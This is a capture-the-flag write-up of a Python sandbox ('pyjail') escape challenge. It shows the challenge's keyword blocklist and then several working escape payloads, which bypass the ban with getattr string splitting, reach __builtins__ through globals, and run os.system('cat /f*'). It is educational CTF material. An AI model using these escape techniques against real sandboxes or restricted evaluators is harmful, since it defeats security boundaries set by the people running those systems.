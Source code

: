 # Pyjail
We were given the challenge text:
```
Escape me plz.

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024

author: pop_eax & Tango
```

Along with the file [jailbreak.py](jailbreak.py).

I have never done a Python breakout challenge before, but this was extremely fun! We could execute Python commands, but very restriced. If our input had a banned word it would fail, and we also didn't have access to the [Python \_\_builtins__](https://docs.python.org/3/library/functions.html#built-in-funcs). After a while of reading up on how Python's exec worked, I did however realized that we had access to scope's global variables through the variable `globals`. If we executed the code `print(globals)`, we got the globals dict as a response 
```
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x0204AF70>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'jailbreak.py', '__cached__': None, 're': <module 're' from 'C:\\Users\\andre\\AppData\\Local\\Programs\\Python\\Python38-32\\lib\\re.py'>, 'version': '3.8.5 (tags/v3.8.5:580fbb0, Jul 20 2020, 15:43:08) [MSC v.1926 32 bit (Intel)]', 'banned': 'import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data', 'search_func': <function <lambda> at 0x02369E80>, 'main': <function main at 0x0239DDF0>}
```
I then realized that we could access the `__builtins__` module through the `globals` variable by doing `globals['__builtins__']`. This would allow us to the function `__import()__`. The command I wished to execute was `open('/flag.txt', 'r').read()`. To use `open()` i had to import it, but import was in the banlist. I had a look at the `__builtins__` once again again, and noticed [`getattr()`](https://docs.python.org/3/library/functions.html#getattr). `getattr()` requires 2 parameters, the first one being an object and the second one must be a string. For example, `getattr(x, 'foobar')` is equivalent to `x.foobar`. The object argument can however also be a string, which allows us to do `getattr('__imp'+'ort__', 'open')`. So to import open, we have to use the code: `globals['__builtins__'].getattr('__imp'+'ort__', 'open')`. To get `read()` of `open()`, we use the same getattr trick. The final command did however not work, as the `open()` function returned an error due to the restrictions of the pyjail.

The new command I planned to execute was `os.read(os.open('/flag.txt', os.O_RDONLY))`. I once again used the getattr trick to bypass the bans for `import` and `read`. I also used lambdas to simulate variables. In the command `b = globals['__builtins__']` and `o = b.getattr(b, '__imp'+'ort__')('o'+'s'))`. I also encountered one final error, since the the Python script made my input lowercase, `os.O_RDONLY` would become lowercase and not work. Luckily this was just a flag, and I instead replaced it with `0`. Here's the final command that prints the contents of `/flag.txt`, which was `flag{l3t's_try_sc0p1ng_th1s_0ne_2390098}`.
```py
print((lambda b: (lambda o: b.getattr(o, 're'+'ad')(o.open('/flag.txt', 0), 64))(b.getattr(b, '__imp'+'ort__')('o'+'s')))(globals['__builtins__']))
```

## Some more solutions

Afterwards I realized I could simply have used `os.system('cat /flag.txt')` to get the output, which also made it a bit shorter:
```py
(lambda b: b.getattr(b.getattr(b, '__imp'+'ort__')('o'+'s'), 'sy'+'stem')('cat /f*'))(globals['__builtins__'])
```

After talking with the creator since I thought it was an incredibly fun challenge, I learned that his "intended" solution was to clear the string of banned characters. I then made this *much* cleaner and simpler 2 liner exploit:
```py
globals['banned'] = 'a'
globals['__builtins__'].__import__('os').system('cat /f*')
```
